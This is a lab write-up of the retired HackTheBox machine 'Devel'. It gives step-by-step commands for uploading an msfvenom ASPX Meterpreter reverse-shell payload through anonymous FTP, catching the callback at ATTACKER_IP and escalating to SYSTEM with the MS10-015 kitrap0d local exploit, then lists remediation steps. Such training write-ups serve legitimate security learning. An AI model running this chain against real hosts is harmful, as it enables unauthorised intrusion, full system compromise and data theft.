 Devel — Anonymous FTP → ASPX webshell → Meterpreter → Local exploit → SYSTEM (Lab)

Date: 2025-10-19

TL;DR: Anonymous FTP allowed uploading an ASPX webshell; I uploaded a Meterpreter ASPX payload, triggered it via HTTP to get a session, enumerated the host, ran a local exploit suggester and used a 32-bit local exploit to escalate to NT AUTHORITY\SYSTEM. All testing performed on a retired HTB lab VM in an isolated environment. PoC artifacts in this writeup are sanitized.

Scope & permission

This work was performed on a retired HackTheBox machine in a lab I control. All commands and artifacts in this document are sanitized for public release. Do not run exploit code against third-party or production systems.

Environment (sanitized)

Target: TARGET_IP (devel)

Discovered services (sanitized):

FTP — anonymous allowed (Microsoft ftpd)

HTTP — Microsoft IIS 7.5 (IIS7)

OS: Windows (32-bit / x86) based on sysinfo from Meterpreter.



Tools used

nmap, ftp (or any FTP client), msfvenom (payload generation), msfconsole (multi/handler & local exploit), a web browser / curl to trigger uploaded webshell, netstat/ss, Meterpreter post modules (local_exploit_suggester), and common shell utilities. (All steps were performed in an isolated lab.)

Chain summary (short)

Port scan → anonymous FTP discovered.

Upload ASPX payload (Meterpreter) via anonymous FTP.

Trigger the ASPX payload through IIS to get a Meterpreter session.

Use Meterpreter to enumerate and confirm x86 (32-bit) target.

Run post/multi/recon/local_exploit_suggester to find suitable local exploits.

Launch a 32-bit local exploit (kitrap0d / MS10-015 variant in-lab) to spawn a SYSTEM session.

Grab user and root flags from the appropriate Desktop folders.

Detailed, reproducible (sanitized) steps
1) Initial scan

nmap -sCV -T4 --open -oA recon --stats-every 5s TARGET_IP

Observed (sanitized):

FTP (21) — Microsoft ftpd — anonymous FTP login allowed

HTTP (80) — Microsoft-IIS/7.5 (IIS7)

2) Confirm anonymous FTP and list files

ftp TARGET_IP
 username: anonymous
 password: (blank)
 ls

Noted aspnet_client/ (empty), iisstart.htm, and welcome.png — nothing immediately interesting in pages, but anonymous write/upload was possible.

3) Generate an ASPX Meterpreter payload (lab-only)

msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=LPORT -f aspx > devel.aspx

Notes: On restricted networks, ports <1024 may require privileges — choose a port you can receive on.

4) Upload the ASPX to the webroot via anonymous FTP

ftp TARGET_IP
 login as anonymous
put devel.aspx
 confirm the file is present (e.g., in IIS webroot)

If the FTP root maps to the IIS webroot, the uploaded devel.aspx becomes web-accessible (e.g., http://TARGET_IP/devel.aspx).

5) Set up a handler and trigger the webshell

Start a handler on your attacking host (msfconsole example):

 In msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST ATTACKER_IP
set LPORT LPORT
set ExitOnSession false
exploit -j

Trigger the webshell by browsing to the uploaded ASPX (or curl http://TARGET_IP/devel.aspx) — this should call back to your handler and create a Meterpreter session.

6) Interact with the Meterpreter session

 In msfconsole
sessions -i <id>
 Meterpreter prompt
sysinfo # confirm OS and architecture (Observed x86)
pwd # observed /windows/system32/inetsrv

From this session, I found myself running in c:\windows\system32\inetsrv and sysinfo reported 32-bit (x86), so further local exploits must match that arch.

7) Upload / move to writable folders (if needed)

Often the web context allows writing to C:\Windows\Temp or other temp locations. I used such a path to stage additional binaries/exploits as required.

8) Enumerate and suggest local exploits

Use Meterpreter’s local exploit suggester to find potential privilege escalation vectors:

run post/multi/recon/local_exploit_suggester

This returns a prioritized list of local exploits that may work on the target given OS/patch level/architecture.

9) Launch a 32-bit local exploit (lab-only)

Using msfconsole I executed the exploit against the Meterpreter session:

 in msfconsole
use exploit/windows/local/ms10_015_kitrap0d
set SESSION <meterpreter-session-id>
set LHOST ATTACKER_IP
set LPORT LPORT
set PAYLOAD windows/meterpreter/reverse_tcp
exploit -j

The exploit succeeded and a new background session (with SYSTEM privileges) was created.

Important: choose a local exploit appropriate to the discovered OS, arch, and patch level.

10) Verify SYSTEM and capture flags

 switch to the new session (e.g., session 4)
sessions -i <new-session-id>
getuid # shows NT AUTHORITY\SYSTEM
 then retrieve flags
cd C:\Users\<user>\Desktop
type user.txt
cd C:\Users\Administrator\Desktop
type root.txt

Impact

Full host compromise: anonymous FTP + writable webroot allowed remote payload upload → web-executable payload → remote shell → local exploit → SYSTEM.

On real systems this chain would allow attackers to access or exfiltrate sensitive data, create persistence, and move laterally.



Remediation (prioritized)

Disable anonymous FTP or restrict it to an isolated, non-webroot directory. Anonymous write access to a directory mapped to the webroot is a critical misconfiguration.

Harden IIS/FTP mapping: ensure uploaded files cannot be served/executed as code (deny execute permission on upload directories). Store user uploads outside the web-executable tree and serve them via safe proxies or with content-type checks.

Patch Windows and apply vendor fixes: keep systems up to date; the used local exploit targets known, patchable vulnerabilities.

Least privilege & segmentation: ensure web services run with minimal privileges and that local services do not run as SYSTEM unless strictly necessary.

Monitoring & alerting: alert on new files in webroot, anomalous FTP uploads, new setuid-like changes, or meterpreter-like callbacks (IDS/IPS).

File integrity & upload validation: validate uploads, restrict allowed extensions, and strip/scan for web-executable content.

